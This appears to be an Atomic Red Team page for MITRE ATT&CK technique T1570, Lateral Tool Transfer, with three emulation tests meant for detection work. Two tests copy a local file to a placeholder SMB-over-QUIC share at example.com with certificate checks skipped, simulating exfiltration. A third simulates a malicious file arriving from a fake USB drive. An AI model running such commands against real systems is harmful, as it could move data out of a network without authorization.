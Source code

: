 # T1570 - Lateral Tool Transfer
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1570)
<blockquote>Adversaries may transfer tools or other files between systems in a compromised environment. Once brought into the victim environment (i.e., [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105)) files may then be copied from one system to another to stage adversary tools or other files over the course of an operation.

Adversaries may copy files between internal victim systems to support lateral movement using inherent file sharing protocols such as file sharing over [SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002) to connected network shares or with authenticated connections via [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001).(Citation: Unit42 LockerGoga 2019)

Files can also be transferred using native or otherwise present tools on the victim system, such as scp, rsync, curl, sftp, and [ftp](https://attack.mitre.org/software/S0095). In some cases, adversaries may be able to leverage [Web Service](https://attack.mitre.org/techniques/T1102)s such as Dropbox or OneDrive to copy files from one machine to another via shared, automatically synced folders.(Citation: Dropbox Malware Sync)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltration Over SMB over QUIC (New-SmbMapping)](#atomic-test-1---exfiltration-over-smb-over-quic-new-smbmapping)

- [Atomic Test #2 - Exfiltration Over SMB over QUIC (NET USE)](#atomic-test-2---exfiltration-over-smb-over-quic-net-use)

- [Atomic Test #3 - Linux - Transfer Tool from external drive](#atomic-test-3---linux---transfer-tool-from-external-drive)


<br/>

## Atomic Test #1 - Exfiltration Over SMB over QUIC (New-SmbMapping)
Simulates an attacker exfiltrating data over SMB over QUIC using the New-SmbMapping command.
Prerequisites:
  - A file server running Windows Server 2022 Datacenter: Azure Edition
  - A Windows 11 computer
  - Windows Admin Center

**Supported Platforms:** Windows


**auto_generated_guid:** d8d13303-159e-4f33-89f4-9f07812d016f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | The UNC path to the share on the file server | string | &#92;&#92;example.com&#92;sales|
| local_file | The local file to be transferred | path | C:&#92;path&#92;to&#92;file.txt|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-SmbMapping -RemotePath '#{remote_path}' -TransportType QUIC -SkipCertificateCheck
copy '#{local_file}' 'Z:\'
```






<br/>
<br/>

## Atomic Test #2 - Exfiltration Over SMB over QUIC (NET USE)
Simulates an attacker exfiltrating data over SMB over QUIC using the NET USE command.
Prerequisites:
  - A file server running Windows Server 2022 Datacenter: Azure Edition
  - A Windows 11 computer
  - Windows Admin Center

**Supported Platforms:** Windows


**auto_generated_guid:** 183235ca-8e6c-422c-88c2-3aa28c4825d9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | The UNC path to the share on the file server | string | &#92;&#92;example.com&#92;sales|
| local_file | The local file to be transferred | path | C:&#92;path&#92;to&#92;file.txt|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
NET USE * '#{remote_path}' /TRANSPORT:QUIC /SKIPCERTCHECK
copy '#{local_file}' '*:\'
```






<br/>
<br/>

## Atomic Test #3 - Linux - Transfer Tool from external drive
Simulates the transfer of a malicious tool or file from a loopback device mounted as an external device to the system.

**Supported Platforms:** Linux


**auto_generated_guid:** 77dc31fe-1114-4cde-8022-df3e76ac00ec






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
LOOP_DEV=$(sudo losetup | grep badusb.img | awk '{print $1}')
# Mount to temporarily place malicious file
sudo mount $LOOP_DEV /mnt/badusb
# Preload the malicious file onto the simulated external drive
sudo sh -c 'echo "Malicious content" > /mnt/badusb/malicious_file'
sudo umount /mnt/badusb

# Remount for test
sudo mount $LOOP_DEV /mnt/badusb
# Simulate transferring the preloaded malicious tool or file
sudo cp /mnt/badusb/malicious_file /tmp/malicious_file

sudo cat /tmp/malicious_file
```




#### Dependencies:  Run with `sh`!
##### Description: Requires sudo privileges to create and delete a loopback device.
##### Check Prereq Commands:
```sh
[ -d /mnt/badusb ]
```
##### Get Prereq Commands:
```sh
sudo mkdir -p /mnt/badusb
# Create a loopback device simulating an external USB
dd if=/dev/zero of=/tmp/badusb.img bs=1M count=10
sudo losetup -fP /tmp/badusb.img
LOOP_DEV=$(sudo losetup | grep badusb.img | awk '{print $1}')
sudo mkfs.ext4 $LOOP_DEV
```




<br/>
